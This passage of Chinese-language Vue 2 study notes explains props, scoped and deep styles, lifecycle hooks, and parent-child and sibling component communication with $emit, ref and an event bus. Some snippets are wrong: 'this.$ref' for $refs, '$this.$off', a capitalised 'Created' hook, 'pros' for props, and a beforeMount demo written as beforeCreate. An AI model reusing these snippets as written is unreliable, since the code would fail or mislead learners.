Vue.component('Count',Count)
Vue.config.productionTip = false


new Vue({
  render: h => h(App),
}).$mount('#app')

~~~


在 Left 和 Right 中都调用 Count 组件

~~~vue
<template>
  <div class="left">
    <h2>Left</h2>
    <Count></Count>
  </div>
</template>

<script>
export default {

};
</script>

<style lang="less">

</style>
~~~


此时的需求是，Left 中的 Count 初始值不同于 Right 中 Count 的初始值，则需要引入 Props，可以让用户自定义 data 中数据的初始值（类似于函数参数中默认值）

~~~vue
<template>
  <div>
      <p>{{count}}</p>
      <button @click="count+=1">+1</button>
  </div>
</template>

<script>
export default {
    // props 是自定义属性，允许使用者通过自定义属性，为当前的组件指定初始值
    props:['init'],
    data(){
        return {
            count:0
        }
    }

}
</script>

<style>

</style>
~~~


在 Left 或 Right 组件中调用 Count 组件时，使用标签语法，加入 init 值即可给 count 赋值

~~~vue
<Count :init="9"></Count>
~~~

> 这里使用 v-bind 是将引号中的数据转化为 JS 表达式，此时 9 是数字类型，如果不使用 v-bind，init 是属性，引号里边的是字符串


此时 Count 组件中调用的数据就不应该是 data 中的 count 了，而是 props 里边的 init

~~~vue
<template>
  <div>
      <p>{{init}}</p>
      <button @click="init+=1">+1</button>
  </div>
</template>
~~~


### 5.1 props 只读属性

props 类似 data 中的数据，可以直接在模板结构中使用，但是 props 数据是只读数据，最好不要更改，如之前的代码，我们使用 v-on 方法绑定了 click 事件，改变了 init 的值，在 console 中可以看到报错内容

~~~
[Vue warn]: Avoid mutating a prop directly since the value will be overwritten whenever the parent component re-renders. Instead, use a data or computed property based on the prop's value. Prop being mutated: "init"
~~~


想要修改 props 的值，可以把 props 的值转存到 data 中，data 中的数据是可读可写的。props 中的属性也会同 data 一样被数据代理到组件的实例中，所以使用 this.init 就可以调用 init 的值，我们只需要把 init 值交给 count 即可

~~~html
<template>
  <div>
      <p>{{count}}</p>
      <button @click="count+=1">+1</button>
  </div>
</template>

<script>
export default {
    // props 是自定义属性，允许使用者通过自定义属性，为当前的组件指定初始值
    props:['init'],
    data(){
        return {
            count:this.init
        }
    }

}
</script>

<style>

</style>
~~~


### 5.2 props 对象写法

~~~json
pros:{
    count:Number
}
~~~

> 限制传值的类型，如果传入字符串或其他类型则会报错


### 	5.2 props 默认值

完整对象写法还可以使用 default，required, type 等属性，将 props 中的属性值也写成对象形式，如：

~~~json
props: {
	init:{
        // 用 default 属性定义初始值
        default:0,
    }
}
~~~


此时在模板中调用标签，如果不指定 init 的值，则按默认传值

~~~
<Count></Count>
~~~


### 5.3 props type 属性

在声明自定义属性时，可以通过 type 来定义属性的数据类型。如：

~~~json
props: {
	init:{
        default:0,
        // 定义属性数据类型
        // 如果传递过来的值不符合该类型，则会在终端报错	
        type: Number,
    }
}
~~~


### 5.4 props required 属性

required 属性为必填项，当父组件调用该组件时，必须对该属性进行传值，否则控制台报错

~~~json
props: {
	init:{
        default:0,
        type: Number,
        // init 属性必须传值，否则报错
        required: true,
            
    }
}
~~~

> 即使有默认值，如果不传值也会报错


### 5.5 props 应用场景

props 的出现就是为了提高组件的复用性，当一个页面有多个结构相同但内容不同的区域，我们就可以使用 props 来给这些内容赋值，保持结构不变。


## 6. 组件样式

### 6.1 scoped

默认情况下，写在 .vue 组件中的样式会全局生效，即所有组件中单独定义的样式，因为 Webpack 打包的原因，会将所有样式汇总在一起，如果出现同类名，或同标签名的样式，很容易造成多个组件之间的样式冲突问题。


导致组件之间样式冲突的根本原因是：

- 单页面应用程序中，所有组件的 DOM 结构，都是基于唯一的 index.html 页面进行呈现的
- 每个组件的样式，都会影响 index.html 中的 DOM 元素
- 在 App.vue 中，后引入的组件中的样式会覆盖之前组件中的同名样式


解决方法：在组件定义样式中加入 scoped 属性，如：

~~~vue
<style lang="less" scoped>
h2 {
  color:red;
}
</style>
~~~


原理：

加入 scoped 属性后，vue 会自动为该组件中的所有标签添加 data-v-xxxx 属性值，通过属性选择器，对拥有该属性的样式赋值，如：

~~~html
<div data-v-3c83f0b7="" class="left">
    <h2 data-v-3c83f0b7="">Left</h2>
    <div data-v-3c83f0b7="">
        <p>9</p>
        <button>+1</button>
    </div>
</div>

<!-- 属性选择器 -->
<style lang="less">
h2[data-v-3c83f0b7] {
  color:red;
}
</style>
~~~

> 每个组件的 data-v-xxx 的值不同，所以样式就不会造成混乱了


一般在 App.vue 中定义全局样式，而单个组件建议使用 scoped 来定义组件内部样式


解决版本兼容报错问题：

- webpack 版本需要与 less-loader 版本对应


如果是 webpack 5 版本则需要升级 less-loader 到 8,9 版本

如果是 webpack 4 版本则需要降级 less-loader 到 7 版本


查看所有版本信息

~~~js
npm view webpack versions	
~~~


### 6.2 deep

有时候需要通过父组件改变子组件中的样式，如果直接用 css 改变的话，是不能生效的，因为子组件的 scoped 并不和父组件的 scoped 一致，导致属性选择器无法正确选择出正确的标签。


如：在 Left 组件中更改 Count 组件中的 H5 标签样式

~~~html
<style lang="less" scoped>
    h2 {
        color:red;
    }

    h5 {
        color:pink;
    }
</style>
~~~


当样式加载时，父组件的 data-v 属性值与子组件的 data-v 属性值不一致，导致样式无法生效

~~~html
<div class="box">
	<div data-v-3c83f0b7="" class="left">
		<h2 data-v-3c83f0b7="">
			Left
		</h2>
		<div data-v-3f581d8f="" data-v-3c83f0b7="">
			<h5 data-v-3f581d8f="">
				9
			</h5>
			<button data-v-3f581d8f="">
				+1
			</button>
		</div>
	</div>
</div>
~~~


解决方法是在父组件中使用 /deep/：

~~~css
/deep/ h5 {
    color:pink;
}
~~~


样式则变成了

~~~css
[data-v-3f581d8f] h5
~~~

> 后代选择器


应用场景：在使用第三方组件时，需要修改第三方组件样式的时候用到 /deep/ 


# 声明周期

生命周期：是指一个组件从创建 -> 运行 -> 销毁的整个阶段，强调的是一个时间段。

声明周期函数：是由 vue 框架提供的内置函数，会伴随着组件的生命周期，自动按次序执行（如创建前执行、创建后执行，销毁前执行等等）


声明周期示意图


## 0. 引子

生命周期有什么用？先看一个案例，我们需要实现一个让 h3  标签透明度不断降低，当透明度为0的时候，再将透明度调回1，周而复始的这么一个功能：

~~~html
<div id="app">
    <h3 :style="{'opacity':opacity}">你好同学</h3>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            opacity: 1,
        },
    })
</script>
~~~

> 这里使用 v-bind 绑定标签的 style 属性，对象中属性名即是变量名的情况可以使用简写形式，如： `<h3 :style="{opacity}">你好同学</h3>`


然后我们需要实现透明度逐渐降低的功能，设置一个定时器就可以了。

~~~html
<div id="app">
    <h3 :style="{opacity:opacity}">你好同学</h3>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            opacity: 0.11,
        },
    })

    setInterval(() => {
        vm.opacity -= 0.01
        if (vm.opacity <= 0) vm.opacity = 1
    }, 16)
</script>
~~~


但是这会造成 Vue 开发的不完整性， setInterval 没有配置在 Vue 的实例中，而是单独拿出来写出的功能，如果写在实例中就需要调用方法，我们来试试

~~~html
<div id="app">
    <h3 :style="{opacity:opacity}">你好同学</h3>
{{change()}}
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            opacity: 0.11,
        },
        methods: {
            change() {
                setInterval(() => {
                    this.opacity -= 0.01
                    if (this.opacity <= 0) vm.opacity = 1
                }, 16)
            },
        },
    })
</script>
~~~

> 通过标签调用实例中的方法，而方法没有返回值，会造成 change() 的值是 undefined，Vue 默认不显示 undefined。这样看上去可以了。但是实际上会造成一个非常严重的后果，change() 会被无限调用。
>
> 因为在 Vue 中，data 值改变，Vue 就会重新渲染页面，而我们的定时器每16毫秒就会改变一次data值，只要改变data值，就会重新渲染页面，并且重新又开启一个定时器。造成指数级无限调用 change() 方法。


那么问题来了，我们怎么让这个 change() 自动调用，并且只调用一次呢？实际上 Vue 提供了几个生命周期函数，其中之一就是 mounted()，当 Vue 完成**初次**模板解析后，并把 DOM 元素放入页面后，会自动调用这个 mounted 函数，并且只调用1次。这时我们就不用担心定时器被多次开启的问题了。

~~~html
<body>
    <div id="app">
        <h3 :style="{opacity:opacity}">你好同学</h3>
    </div>

    <script>
        const vm = new Vue({
            el: '#app',
            data: {
                opacity: 0.11,
            },
            mounted() {
                setInterval(() => {
                    this.opacity -= 0.01
                    if (this.opacity <= 0) vm.opacity = 1
                }, 16)
            },
        })
    </script>
~~~

> mounted() 与 methods，data 平级放在 Vue 的配置项中


除了 mounted() 这个函数，Vue 还提供了其他几个生命周期函数，在不同时刻调用。


## 1. 创建组件前 beforeCreate

当以标签使用组件的时候，如：`<Count></Count>`，实际上我们就创建了该组件的实例，实例声明后，Vue 会先执行 beforeCreate 函数，这时实例的 prop, data, methods 都还没有创建。


我们创建 Test.vue 组件，声明 props, data, methods 

Test.vue

~~~html
<template>
  <div class="test-container">
    <h3>Test.vue 组件</h3>
  </div>
</template>

<script>
export default {
  props: {
    init: {
      default: "default",
    },
  },
  data() {
    return {
      message: "Hello Vue",
    };
  },
  methods: {
    show() {
      console.log("调用了 Test 组件中show方法");
    },
  },
  beforeCreate() {
      // 调用 props 中 init
    console.log(this.init);
      // 调用 data 中的数据
    console.log(this.message);
      // 调用 methods 中定义的方法
    this.show();
  },
};
</script>

<style lang="less">
.test-container {
  padding: 20px;
  height: 200px;
  background-color: pink;
}
</style>
~~~


并让 App.vue 根组件调用 Test.vue 组件

~~~html
<template>
<div class="app-container">
    <h1>APP 根组件</h1>
    <Test></Test>
    <hr />
    <div class="box">
        <!-- 渲染 Left 与 Right 组件 -->
        <Left></Left>
        <Right></Right>
    </div>
    </div>
</template>

<script>
    // 导入组件
    import Left from "@/components/Left.vue";
    import Right from "@/components/Right.vue";
    import Test from "@/components/Test.vue";


    export default {
        components: {
            Left,
            Right,
            Test
        },
    };
</script>

<style lang="less">
.box {
    display:flex
}
</style>

~~~


在控制台发现报错，可以证明组件在实例化后，执行 beforeCreate 阶段，实例中的所有属性与方法并没有创建，所以无法调用或读取

~~~
vue.runtime.esm.js?2b0e:619 [Vue warn]: Error in beforeCreate hook: "TypeError: Cannot read properties of undefined (reading 'init')"

found in

---> <Test> at src/components/Test.vue
<App> at src/App.vue
<Root>
vue.runtime.esm.js?2b0e:1897 TypeError: Cannot read properties of undefined (reading 'init')
~~~


简单测试：

~~~html
<div id="app">
    <h3>n值：{{n}}</h3>
    <button @click="add">点我+1</button>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            n: 1,
        },
        methods: {
            add() {
                this.n++
            },
        },
        beforeCreate() {
            console.log('beforeCreate')
            console.log(this)
            // 手动下断点，不继续执行后边的代码
            debugger
        },
    })
</script>
~~~


可以看到，vm 上并没有 _data, 也没有 add 方法，证明在 beforecreate() 阶段，Vue 并没有做数据代理，也就是说 data 中的数据，methods 都还没被放在 vm 实例上。


## 2. 创建组件后 Created

当组件被创建后，会立刻执行 Created 函数，此时 props, data, methods 都已经被创建好了，我们再次读取或调用方法，已经可以显示数据了。

~~~js
Created() {
    console.log(this.init);
    console.log(this.message);
    this.show();
},
~~~


此时虽然数据可用，但是模板结构尚未生成，我们一般在此时发起 Ajax 异步请求，获取数据，如：

~~~html
<template>
  <div class="test-container">
    <h3>Test.vue 组件</h3>
  </div>
</template>

<script>
export default {
  props: {
    init: {
      default: "default",
    },
  },
  data() {
    return {
      message: "Hello Vue",
      // 定义空数组
      books:[],
    };
  },
  methods: {
    show() {
      console.log("调用了 Test 组件中show方法");
    },
    // 定义发送请求获取数据方法
    initBooks(){
        const xhr = new XMLHttpRequest()
        // 因为要使用 Vue 实例中的 this
        // 使用 function 的话，this 指向 xhr
        // 所以改成箭头函数
        xhr.addEventListener('load',()=>{
            const result = JSON.parse(xhr.responseText)
            // 将数据放入实例中的 data.books
            this.books = result.data
        })
        xhr.open('GET','http://www.liulongbin.top:3006/api/getbooks')
        xhr.send()
    },
  },
  created() {
      // 创建组件后获取数据
      this.initBooks()
  },
};
</script>

<style lang="less">
.test-container {
  padding: 20px;
  height: 200px;
  background-color: pink;
}
</style>
~~~


执行完 created 之后，Vue 会开始解析模板，在内存中生成虚拟 DOM，页面暂时还不能显示解析好的内容。生成虚拟 DOM 过程：

- 判断是否有 el 选项

在普通 Vue 文件中，我们通常会指定 el 容器，如：

~~~js
const vm = new Vue({
    el: '#app',
    data: {
        n: 1,
    },
}
~~~


如果有 el 容器，那么 Vue 会继续往下执行，如果没有，那么会等待，知道 Vue 调用其实例的方法 $mount(el) 才会继续执行，如我们项目中 main.js 中

~~~js
new Vue({
  render: h => h(App),
}).$mount('#app')
~~~


- 判断是否有 template 选项

如果没有 template 选项，那么 Vue 会将整个 el 标签定义为 template，如：

~~~html
<div id="app">
    <h3>n值：{{n}}</h3>
    <button @click="add">点我+1</button>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            n: 1,
        },
    })
</script>
~~~

> 其中 el 绑定 `<div id="app">`  会作为根节点。


如果有 template 选项，那么会将 template 作为根节点

~~~html
<div id="app"></div>

<script>
    const vm = new Vue({
        el: '#app',
        template: `<div><h3>n值：{{n}}</h3></div>`,
        data: {
            n: 1,
        },
    })
</script>
~~~

> 注意：如果需要换行需要使用 ``
>
> template 节点会完全替换 `<div id="app"></div>` ，所以这个标签不会在页面中显示，只是起一个占位标识作用。


## 3. beforeMount

创建完组件后，实例会根据 el 属性或 $mount 方法加载模板到内存中，然后执行 beforeMount 函数。注意：此时浏览器中还有当前组件的 DOM 结构。所有结构是在内存中，也就是虚拟 DOM。


~~~html
<template>
    <div class="test-container">
        <!-- 加上ID -->
        <h3 id="h3">Test.vue 组件</h3>
    </div>
</template>

<script>
    export default {
        props: {
            init: {
                default: "default",
            },
        },
        data() {
            return {
                message: "Hello Vue",
                books: [],
            };
        },
        methods: {
            show() {
                console.log("调用了 Test 组件中show方法");
            },
            initBooks() {
                const xhr = new XMLHttpRequest();
                xhr.addEventListener("load", () => {
                    const result = JSON.parse(xhr.responseText);
                    this.books = result.data;
                });
                xhr.open("GET", "http://www.liulongbin.top:3006/api/getbooks");
                xhr.send();
            },
        },
        created() {
            this.initBooks();
        },
        // 测试是否能够获取DOM元素
        beforeCreate() {
            console.log("beforeMount");
            const dom = document.querySelector('#h3')
            console.log(dom);
        },
    };
</script>

<style lang="less">
    .test-container {
        padding: 20px;
        height: 200px;
        background-color: pink;
    }
</style>
~~~

> 结果是 undefined


## 4. mounted

在内存创建完 HTML 虚拟 DOM 后，Vue 会把内存中编译好的 HTML 结构渲染到浏览器中，用虚拟 DOM 替换实例中 el 掉指定的 DOM 元素，也就是我们定义的 #app 元素，此时浏览器已经可以包含了当前组件的 DOM 元素。这时，会触发 mounted 生命周期函数。


Vue 完成模板的解析，并把真实 DOM 元素放入页面后，调用 mounted()

~~~js
mounted(){
    const dom = document.querySelector('#h3')
    console.log(dom);
},
~~~


## 5. beforeUpdate

当实例中 data 数据发生改变时，会触发 beforeUpdate 函数 。此时的 data 是最新数据，但是还未渲染到页面中


创建一个按钮，改变 data 中的 message 内容

~~~html
<button @click="message += '~'">改变数据</button>
~~~


在 beforeUpdate 中输出 message 值，对比真实页面元素中的 p 标签中的内容

~~~js
beforeUpdate(){
    console.log(this.message);
    const dom = document.querySelector('#pppp')
    console.log(dom.innerHTML);
}
~~~


可以看到 this.message 已经是改变后的内容，但是 p 标签中的内容还是改变前的内容

结论：我们可以断言，在数据发生改变时，会触发 beforeUpdate 函数，并且 data 数据尚未渲染到 HTML 页面中


## 6. updated

数据渲染到 HTML 完毕后，会触发 updated 函数，此时已经完成了 DOM 结构和数据的重新渲染。


再次调用 data 中数据和 DOM 中数据，此时数据是一致的

~~~js
updated(){
    console.log(this.message);
    const dom = document.querySelector('#pppp')
    console.log(dom.innerHTML);
}
~~~


结论：当数据变化后，为了能够操作最新的 DOM 结构，需要将代码写在 updated 声明周期函数中


## 7. beforeDestroy

当组件被调用 $destroy() 函数后，会立即执行 beforeDestroy() 周期函数，此时组件尚未销毁，组件还处于正常工作的状态。


## 8. destroyed

组件已经销毁，此组件在浏览器中对应的 DOM 元素已经被完全移除


# 组件之间的数据共享

项目开发中，最常见的关系分为以下两种：

- 父子关系
- 兄弟关系


父子组件之间的数据共享又分为：

- 父->子共享数据
- 子->父共享数据


## 1. 父 -> 子传值

父组件向子组件共享数据

- 在组件标签中使用自定义属性，将 data 中的数据绑定自定义属性
  - 普通属性传值为字符串
  - v-bind 绑定属性值为表达式
- 子组件使用 props 接受自定义属性


示例代码如下：

父组件

~~~html
<template>
    <div class="app-container">
        <h1>APP 根组件</h1>
        <!-- 如果不用 v-bind 指令绑定数据，传递的值则只是属性值字符串（"message"），而不是 data 中的 message （'hello vue'） -->
        <Son :msg="message" :user="userinfo"></Son>
        <hr />
    </div>
</template>

<script>
    import Son from "@/components/Son"
    export default {
        components: {
            Son,
        },
        data(){
            return {
                message:'hello Vue',
                userinfo:{
                    name:'zs',
                    age:20,
                }
            }
        },
    };
</script>

<style lang="less">
</style>
~~~


子组件

~~~html
<template>
  <div class="son-container">
      <h3>Son 组件</h3>
      <p>父组件传递过来的 msg 值是：{{ msg }}</p>
      <p>父组件传递过来的 user 值是：{{ user }}</p>
  </div>
</template>

<script>
export default {
    props:['msg','user']
}
</script>

<style>

</style>
~~~


## 2. 修改子组件中的值

父组件传递的数据与子组件接受的数据是独立的（复杂类型除外），如果需要修改数据，子组件中的值改变，但是父组件的值是不变的，因为引用的地址不同，需要将 props 值传入 data ，然后用 data 进行渲染或数据的修改


子组件

~~~html
    <template>
    <div class="son-container">
        <h3>Son 组件</h3>
        <p>父组件传递过来的 msg 值是：{{ msg }}</p>
        <p>父组件传递过来的 user 值是：{{ user }}</p>
        <button @click="msg=1">改动</button>
        <button @click="user={ name:'ls'}">改动</button>
    </div>
    </template>
~~~

> msg 与 user 的值在子组件和模板上都被更新为新数据，但是在父组件中数据没有改变


```html
<template>
<div class="son-container">
    <h3>Son 组件</h3>
    <p>父组件传递过来的 msg 值是：{{ msg }}</p>
    <p>父组件传递过来的 user 值是：{{ user }}</p>
    <button @click="user.name='ls'">改动</button>
</div>
</template>
```

> 因为 user 是对象的引用，引用的是地址，所以此时父组件和子组件的值都变化了


## 3. 子 -> 父传值

### 3.1 子组件触发父组件定义方法

如果想让子组件向父组件传递数据，那么首先我们需要拿到这个数据，可以定义一个 Button，绑定点击事件

~~~vue
<template>
  <div>
    <h3>姓名：{{ name }}</h3>
    <button @click="send">传递给父组件</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: '张三',
    }
  },
  methods: {
    send() {
      console.log(this.name)
    },
  },
}
</script>

<style></style>

~~~

> 此时通过点击 button，我们就可以拿到 data 中的 name 值


然后我们在父组件中可以定义一个方法，然后将这个方法通过 v-bind 指令绑定在组件标签上，这样我们就把一个函数从父组件传递到了子组件，如：

~~~vue
<template>
  <div>
    <!-- 给 Student 标签一个 receive 属性，属性值则是组件中的 receive 方法 -->
    <Student :receive="receive"></Student>
  </div>
</template>

<script>
import Student from './components/Student.vue'
export default {
  components: {
    Student,
  },
  methods: {
    receive(name) {
      console.log(name)
    },
  },
}
</script>

<style></style>

~~~


在子组件中利用 props 接受这个函数

~~~js
props: ['receive'],
~~~


然后子组件调用这个接受过来的函数，通过参数传值

~~~js
methods: {
    send() {
        this.receive(this.name)
    },
},
~~~

> 此时再次点击子组件中的 button，实际上调用的是父组件中定义的函数，而值也通过参数的形式传递给了父组件。


### 3.2 $emit 触发自定义事件

子组件定义一个 data 值：count

~~~html
    <template>
    <div class="son-container">
        <h3>Son 组件</h3>
        <p>{{count}}</p>
        <button @click="add">按钮</button>
    </div>
    </template>

    <script>
    export default {
        data(){
            return {
                count:1
            }
        }
    }
    </script>

    <style>

    </style>
~~~


父组件定义一个 data 属性用来接受子组件传递的值，并用插值显示在 DOM 中

~~~vue
<template>
<div class="app-container">
    <h1>APP 根组件</h1>
    <p>子组件传递过来的值为 {{ countFromSon }} </p>
    <Son></Son>
    <hr />
    </div>
</template>

<script>
    import Son from "@/components/Son"

    export default {
        components: {
            Son,
        },
        data(){
            return {
                countFromSon:0,
            }
        },

    };
</script>

<style lang="less">
    .box {
        display:flex
    }
</style>

~~~


子组件向父组件传值需要使用自定义事件，当子组件中的 $emit 绑定的事件被触发时，父组件通过事件绑定的方法获得子组件传递过来的值

- 父组件绑定一个自定义事件
- 子组件中使用 $emit 触发自定义事件
- 事件指向父组件对应方法


绑定事件利用的是 v-on 指令，如给 button 标签绑定一个 click 事件

~~~vue
<button v-on:click="getName">点击获取数据   
</button>
~~~

> 当 button 按钮被点击时，触发 click 事件，并且执行事件上绑定的函数


简写形式：

~~~vue
<button @click="getName">点击获取数据   
</button>
~~~


那么我们可以在父组件中的子组件标签上绑定一个自定义事件，让这个事件被触发时，执行 methods 中的指定函数，如：

~~~vue
<Student @receive="getName">   
</Student>
~~~

> 当 receive 事件被触发时，执行 getName 方法


类似于给 button 标签绑定 click 事件，我们必须要在 button 上触发 click 事件，才可以让 click 事件绑定的函数执行，那么在 Student 子组件上绑定的 receive 事件，也必须在 Student 组件上触发，才可以执行 getName 函数执行。


触发事件函数 $emit()，是 Vue 原型对象上的一个方法，可以让组件触发被绑定的自定义事件

如果想在子组件中触发被绑定的 receive 事件，则需要执行

~~~js
this.$emit('receive')
~~~

> 因为是 Vue 原型对象上的方法，所以 vc 也可以调用，vc 实例对象上没有该方法，会顺着 `__proto__` 一直找到 Vue.prototype 下的 $emit 


那么我们只需要在子组件中的一个方法中调用这个函数，就可以触发子组件被绑定的自定义事件，如在 button 中绑定一个 click 事件，然后触发 send 函数：

~~~vue
<button @click="send">
    点击触发 send 方法
</button>
~~~


在 send 方法中我们调用 $emit() ，触发 receive 事件

~~~js
methods:{
    send(){
        this.$emit('receive')
    }    
}

~~~


当 receive 事件被触发后，那么就会执行父组件中的 getName 方法，接下来看下如何传值

$emit() 函数可以传递参数，第一个参数就是组件上被绑定的自定义事件名称，然后就可以传递多个自定义参数，如：

~~~js
methods:{
    send(){
        // 传递单个参数
        this.$emit('receive', this.name)
        // 传递多个参数
        this.$emit('receive', this.name, this.age, this.sex)
    }    
}
~~~


那么在父组件的接收函数中，就可以接受参数了

~~~js
// 接受单个参数
getName(name) {
    console.log(name)
}

// 接受多个参数，剩余参数
getName(name,...params){
    // 剩余参数以数组形式呈现
    console.log(name,params)
}

~~~


例：

父组件

~~~html
<template>
<div class="app-container">
    <h1>APP 根组件</h1>
    <p>子组件传递过来的值为 {{ countFromSon }} </p>
    <Son @numChange="getNewCount"></Son>
    <hr />
    </div>
</template>

<script>
    import Son from "@/components/Son"


    export default {
        data(){
            return {
                countFromSon:0,
            }
        },
        methods:{
            // val 为从子组件中传递的值,赋值给 data 中定义的变量
            getNewCount(val){
                this.countFromSon = val
            }
        },
        components: {
            Son,
        },
    };
</script>

<style lang="less">
.box {
    display:flex
}
</style>
~~~


子组件

~~~html
    <template>
  <div class="son-container">
    <h3>Son 组件</h3>
    <p>{{ count }}</p>
    <button @click="add">按钮</button>
  </div>
</template>

    <script>
export default {
  data() {
    return {
      count: 1,
    };
  },
  methods: {
    add() {
      this.count += 1;
        // 修改数据时，通过 $emit() 触发父组件中自定义事件
        // 哪个组件调用这个自定义事件，那么 this.count 就传给那个组件
      this.$emit("numChange", this.count);
    },
  },
};
</script>

    <style>
</style>
~~~


### 3.3 通过 ref 添加自定事件

在子组件标签上可以使用 v-on 绑定自定事件，也可以通过 ref 来给子组件绑定事件，给子组件绑定一个 ref 属性

~~~vue
<Student ref="student"></Student>
~~~


那么我们通过 `this.$ref.student` 就获得了子组件的 vc 实例，通过 $on 方法（Vue原型对象上的方法），可以对组件进行事件绑定，如：

~~~js
this.$ref.student.$on('receive', this.getName)
~~~

> 自定义事件 receive 绑定在 Student 组件上，当触发组件时，调用 App组件上的 getName 方法


我们可以通过时间生命周期函数 mounted() 来加载

~~~js
mounted(){
    this.$ref.student.$on('receive', this.getName)
}
~~~


使用 ref 给子组件绑定自定义事件比较灵活

比如说，间隔3秒再绑定事件：

~~~js
mounted(){
    setTimeout(()=>{
        this.$ref.student.$on('receive', this.getName)
    },3000)
}
~~~


使用 $on 中需要注意 this 的指向，既然 $on 的第二个参数是执行指定函数，那么直接把函数写在 $on 参数中的话需要使用箭头函数

~~~js
mounted(){
    this.$ref.student.$on('receive', (name)=>{
        this.studentName = name
    })
}
~~~


### 3.4 使用事件修饰符

如果只需要数据传递一次，那么可以使用 once 事件修饰符来限制自定义事件，如：

~~~js
this.$ref.student.$once('receive', this.getName)
~~~


~~~vue
<Son @numChange.once="getNewCount"></Son>
~~~


组件也可以绑定原生事件，但是要给绑定的原生事件添加时间修饰符 native 如：

~~~vue
<Son @click.native="getNewCount"></Son>
~~~

> 如果不用事件修饰符，Vue 会认为 click 还是一个自定义事件，而不是原生的 click 事件


### 3.5 解绑自定义事件

在已经有绑定自定义事件的子组件中使用 $off 解绑事件，

添加一个 button 标签，绑定 click 事件，触发解绑方法：

~~~vue
<button @click="unbind">
    解绑事件
</button>
~~~


在 methods 中定义 unbind 方法

~~~js
methods:{
    unbind(){
        // 解除单个绑定事件
        $this.$off('receive')
        // 解除多个绑定事件，将事件放入数组中
        $this.$off(['receive','anotherOne'])
        // 解绑所有绑定事件
        $this.$off()
    }
}
~~~


## 4. 兄弟组件之间的传值

### 4.1 共用 vm

在 vue 2.x 中，兄弟组件之间的数据共享的方案是 EventBus，也称作全局事件总线，可以实现任意组件之间的通信


如果想让任意组件之间进行通信，那么我们需要确保一件事，那就是需要一个第三方，并且拥有两个条件，

- 所有组件都可以看到
- 拥有 $on, $off, $emit 等方法


组件是 VueComponent 构造函数的实例，所以所有组件可以访问 VueComponent ，那么这个第三方由 VueComponent 当可不可以？

答案是不可以，VueComponent 是由 `Vue.extend()` 生成的，每次调用 `Vue.extend()` 都会生成一个新的 VueComponent，因此 School 组件的 VueComponent 并不是 Student 组件的 VueComponent。


通过原型对象，不管是 vm，vc 最终都会访问到 Vue.prototype ，而 Vue.prototype 上也确实拥有 $on, $off, $emit 方法，我们在 main.js 给 Vue.prototype 添加一个对象：

~~~js
import Vue from 'vue'
import App from './App'

Vue.prototype.x = {a:'1',b:'2'}
~~~


在任何一个组件中，都可以通过 this.x 访问到该属性，访问顺序

~~~
vc -> VueComponent._proto_ -> Vue.prototype
~~~


那么现在来完成第二点，让 Vue.prototype 上新添加的这个属性拥有 $on, $off, $emit 方法

这些方法是实际上是在 Vue.prototype 身上，如果想让 Vue.prototype.x 拥有这些方法，就要回头在 Vue.prototype 身上找，所以这个 x 应该是一个：

- vc
- vm


而 vc 是由 VueComponent 创建的，当我们在 App.vue 中使用标签时，会自动调用 new VueComponent 创建组件实例 vc，所以我们得通过 Vue.extend() 创建的 VueCompoennt，然后再创建 vc。所以代码应该是这样的

~~~js
import Vue from 'vue'

const Demo = Vue.extend({})
const d = new Demo()
Vue.prototype.x = d
~~~

> 此时 Vue.prototype.x 就拥有了 $on, $off, $emit 函数


另外 vm 也可以挂载在 Vue.prototype 上，

~~~js
import Vue from 'vue'
import App from './App'

new Vue({
    render: (h) => h(App),
    beforeCreate(){
        Vue.prototype.$bus = this
    }
}).$mount('#app')
~~~


当兄弟组件 A 需要接受数据时

~~~vue
<template>
  <div>
    <h3>{{ name }}</h3>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: '',
    }
  },
  mounted() {
    this.$bus.$on('sendName', (name) => {
      console.log(name)
      this.name = name
    })
  },
}
</script>

<style></style>

~~~


B组件点击按钮触发 $bus 上的事件

~~~vue
<template>
  <div>
    <h3>姓名：{{ name }}</h3>
    <button @click="send">传递给父组件</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: '张三',
    }
  },
  methods: {
    send() {
      this.$bus.$emit('sendName', this.name)
    },
  },
}
</script>

<style></style>

~~~


### 4.2 单独创建 vm

使用共有 vm，是在 vm 的原型对象上挂载 vm，这就造成了无限嵌套，即

~~~
vm = Vue.prototype.$bus
~~~


因此

~~~
Vue.prototype.$bus.__protot__ == Vue.prototype
~~~

> 然后 Vue.prototype 下还有 $bus，造成无限循环嵌套


全局事件总线其实就是单独拿出一个 Vue 实例对象，然后我们通过这个实例对象来进行事件和数据的中转

如果是兄弟组件，是互相接触不到对方的标签的，所以我们需要借助一个第三方来帮助我们进行组件之间数据的通讯。

- 创建 eventBus.js 模块，并向外共享一个 Vue 的实例对象
- 在数据发送方，调用 `bus.$emit('事件名称', 要发送的数据)` 方法触发自定义事件
- 在数据接受放，调用 `bus.$on('事件名称', 要发送的数据)` 方法注册一个自定义事件


eventBus.js

~~~js
import Vue from 'vue'
export default new Vue()
~~~


数据接受方，兄弟组件A，当组件被创建时，给 bus 这个 Vue 实例绑定一个 share 事件，当事件被触发时，执行参数中的回调函数。

~~~html
<template>
  <div class="right">
    <h2>Right</h2>
    <hr />
    <p>{{ msgFromLeft }}</p>
  </div>
</template>

<script>
    // 导入 event Bus
import bus from "./eventBus.js";

export default {
  data() {
    return {
        // 定义属性接受传值
      msgFromLeft: "",
    };
  },
    // 当组件被创建时运行
  created() {
      // 通过 eventBus 中绑定的方法进行传值
    bus.$on("share", (val) => {
      this.msgFromLeft = val;
    });
  },
};
</script>

<style lang="less">
</style>


~~~

相当于借助一个中间实例，进行方法与值的传递


数据发送方，兄弟组件 B，通过按钮 click 事件触发 sendMsg() 方法，在该方法中触发 bus 这个 Vue 实例上的 share 事件，将 this.msg 值传递给该方法。

~~~html
<template>
  <div class="left">
    <h2>Left</h2>
    <hr>
    <p>{{ msg }}</p>
      <!-- 点击按钮触发方法 -->
    <button @click="sendMsg">发送数据</button>
  </div>
</template>

<script>
    // 导入 eventBus
import bus from './eventBus.js'

export default {
  data(){
    return {
      msg: 'hello vue'
    }
  },
  methods:{
    sendMsg(){
        // bus.$emit 触发事件，将 msg 值传递给 bus
      bus.$emit('share',this.msg)
    }
  }

};
</script>

